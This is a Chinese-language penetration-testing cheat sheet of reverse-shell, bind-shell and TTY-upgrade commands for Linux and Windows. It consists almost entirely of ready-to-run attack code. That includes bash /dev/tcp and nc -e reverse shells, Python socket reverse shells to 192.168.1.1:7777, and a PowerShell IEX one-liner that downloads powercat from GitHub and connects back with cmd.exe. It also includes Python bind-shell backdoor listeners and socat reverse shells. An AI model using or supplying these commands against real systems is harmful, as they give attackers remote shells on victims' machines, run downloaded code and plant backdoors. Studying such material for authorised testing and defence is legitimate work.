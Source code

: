 # 反弹/正向 Shell & 升级交互式Shell (Linux&Win)

## 0x01 反弹shell

### 1. Linux

等待反弹的shell会话主机：192.168.1.1:7777  
#### bash
  
```
/bin/bash -i >& /dev/tcp/192.168.1.1/7777 0>&1     
```
#### nc
```
nc -e /bin/bash 192.168.1.1 7777  
```
#### python 
新建python脚本执行     
或者通过python -c ''    
```
import os;os.system("bash -c 'bash -i >& /dev/tcp/192.168.1.1/7777 0>&1'")
```
```
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.1.1",7777));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);
```

### 2. Windows
#### powercat 
https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1    
```
powershell -nop -exec bypass -c "IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c 192.168.1.1 -p 9999 -e cmd.exe"   
```
## 0x02 正向shell

### 1. python on windows
>监听在7777端口，可以通过nc连接
```python
from socket import *
import subprocess
import os, threading

def send(talk, proc):
        import time
        while True:
                msg = proc.stdout.readline()
                talk.send(msg)

if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',7777))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen('cmd.exe /K', stdin=subprocess.PIPE, 
                stdout=subprocess.PIPE, stderr=subprocess.PIPE, shell=True)
        t = threading.Thread(target = send, args = (talk, proc))
        t.setDaemon(True)
        t.start()
        while True:
                cmd=talk.recv(1024)
                proc.stdin.write(cmd)
                proc.stdin.flush()
        server.close()
```
### 2. python on linux
>监听在7777端口，可以通过nc连接
```python
from socket import *
import subprocess
import os, threading, sys, time

if __name__ == "__main__":
        server=socket(AF_INET,SOCK_STREAM)
        server.bind(('0.0.0.0',7777))
        server.listen(5)
        print 'waiting for connect'
        talk, addr = server.accept()
        print 'connect from',addr
        proc = subprocess.Popen(["/bin/sh","-i"], stdin=talk,
                stdout=talk, stderr=talk, shell=True)
```

## 0x03 提升shell交互能力

### 1. Linux
#### python
它可以执行命令su，以为他们是在一个合适的终端执行。要升级一个shell，只需运行以下命令：     
```
python -c 'import pty; pty.spawn("/bin/bash")'

```
#### socat(反弹交互式shell)
本机监听(192.168.0.1):   
```
socat file:`tty`,raw,echo=0 tcp-listen:8888
```
目标主机:   
```
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:192.168.0.1:8888   
```
如果没有安装socat。有独立的二进制文件可以从这个Github下载：https://github.com/andrew-d/static-binaries    

## Ref 
- [将简单的shell升级为完全交互式的TTY](https://www.4hou.com/posts/mQ7R)
- [python正向连接后门](https://www.leavesongs.com/PYTHON/python-shell-backdoor.html)
